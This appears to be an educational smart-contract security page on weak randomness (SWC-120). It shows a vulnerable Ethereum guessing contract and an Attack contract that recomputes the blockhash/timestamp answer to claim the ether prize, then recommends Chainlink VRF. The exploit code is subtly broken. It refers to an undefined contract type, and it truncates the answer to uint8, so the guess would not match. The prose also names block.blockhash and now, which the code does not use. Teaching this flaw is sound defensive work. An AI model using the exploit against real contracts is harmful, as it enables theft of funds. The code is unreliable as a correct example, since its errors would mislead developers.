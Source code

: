 ## Weak Sources of Randomness from Chain Attributes

Using chain attributes for randomness, e.g.: `block.timestamp`, `blockhash`, and `block.difficulty` can seem like a good idea since they often produce pseudo-random values. The problem, however, is that Ethereum is entirely deterministic and all available on-chain data is public. Chain attributes can either be predicted or manipulated, and should thus never be used for random number generation.

### Example of Weak Randomness

```solidity
pragma solidity ^0.8.24;

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint256 _guess) public {
        uint256 answer = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent,) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```
In the above example, the answer variable is initialized using block.blockhash and now (current timestamp). This method is insecure because both block.blockhash and now can be influenced or predicted by miners, making it possible to guess the answer and win the challenge unfairly.

An attacker can exploit the weak randomness as follows:

```solidity
contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumberChallenge guessTheRandomNumber) public {
        uint256 answer = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        guessTheRandomNumber.guess(uint8(answer));
    }

    // Helper function to check balance
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
The `Attack` contract calculates the `answer` using the same logic as the `GuessTheRandomNumber` contract and guesses it correctly, allowing the attacker to win the challenge.

### Preventive Measures

A common and more secure solution is to use an oracle service such as [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction/), which provides verifiable randomness that cannot be manipulated.

### Sources

- [SWC Registry: SWC-120](https://swcregistry.io/docs/SWC-120)
- [When can blockhash be safely used for a random number? When would it be unsafe?](https://ethereum.stackexchange.com/questions/419/when-can-blockhash-be-safely-used-for-a-random-number-when-would-it-be-unsafe)
- [How can I securely generate a random number in my smart contract?](https://ethereum.stackexchange.com/questions/191/how-can-i-securely-generate-a-random-number-in-my-smart-contract)
- [Solidity Patterns: Randomness](https://fravoll.github.io/solidity-patterns/randomness.html)